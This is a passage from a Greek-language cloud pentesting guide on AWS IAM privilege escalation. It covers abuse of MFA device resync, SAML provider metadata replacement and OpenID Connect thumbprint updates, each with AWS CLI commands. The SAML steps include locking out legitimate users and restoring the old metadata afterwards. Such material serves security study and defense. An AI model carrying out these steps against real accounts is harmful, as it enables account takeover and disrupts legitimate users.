### **`iam:ResyncMFADevice`**

Επιτρέπει την επανασυγχρονισμό ενός συσκευής MFA, πιθανώς οδηγώντας σε έμμεση ανόδο προνομίων με τη χειραγώγηση της προστασίας MFA.

**Εντολή Bash:**
```bash
aws iam resync-mfa-device --user-name <username> --serial-number <serial_number> \
--authentication-code1 <code1> --authentication-code2 <code2>
```
**Επίπτωση:** Έμμεση ανόδος προνομίων με την προσθήκη ή την παραπλάσιση συσκευών MFA.

### `iam:UpdateSAMLProvider`, `iam:ListSAMLProviders`, (`iam:GetSAMLProvider`)

Με αυτές τις άδειες μπορείτε να **αλλάξετε τα μεταδεδομένα XML της σύνδεσης SAML**. Έπειτα, θα μπορούσατε να καταχραστείτε τη **σύνδεση SAML** για να **συνδεθείτε** με οποιοδήποτε **ρόλο που την εμπιστεύεται**.

Σημειώστε ότι κάνοντας αυτό, **οι νόμιμοι χρήστες δεν θα μπορούν να συνδεθούν**. Ωστόσο, θα μπορούσατε να αποκτήσετε το XML, έτσι ώστε να μπορέσετε να βάλετε το δικό σας, να συνδεθείτε και να ρυθμίσετε το προηγούμενο πίσω.
```bash
# List SAMLs
aws iam list-saml-providers

# Optional: Get SAML provider XML
aws iam get-saml-provider --saml-provider-arn <ARN>

# Update SAML provider
aws iam update-saml-provider --saml-metadata-document <value> --saml-provider-arn <arn>

## Login impersonating roles that trust the SAML provider

# Optional: Set the previous XML back
aws iam update-saml-provider --saml-metadata-document <previous-xml> --saml-provider-arn <arn>
```
{% hint style="info" %}
ΕΡΓΑΛΕΙΟ: Ένα εργαλείο που μπορεί να δημιουργήσει τα μεταδεδομένα SAML και να συνδεθεί με ένα συγκεκριμένο ρόλο
{% endhint %}

### `iam:UpdateOpenIDConnectProviderThumbprint`, `iam:ListOpenIDConnectProviders`, (`iam:`**`GetOpenIDConnectProvider`**)

(Ανασφάλεια γι' αυτό) Αν ένας επιτιθέμενος έχει αυτές τις **άδειες** μπορεί να προσθέσει ένα νέο **Thumbprint** για να καταφέρει να συνδεθεί σε όλους τους ρόλους που εμπιστεύονται τον πάροχο.

{% code overflow="wrap" %}
```bash
# List providers
aws iam list-open-id-connect-providers
# Optional: Get Thumbprints used to not delete them
aws iam get-open-id-connect-provider --open-id-connect-provider-arn <ARN>
# Update Thumbprints (The thumbprint is always a 40-character string)
aws iam update-open-id-connect-provider-thumbprint --open-id-connect-provider-arn <ARN> --thumbprint-list 359755EXAMPLEabc3060bce3EXAMPLEec4542a3
```
{% endcode %}
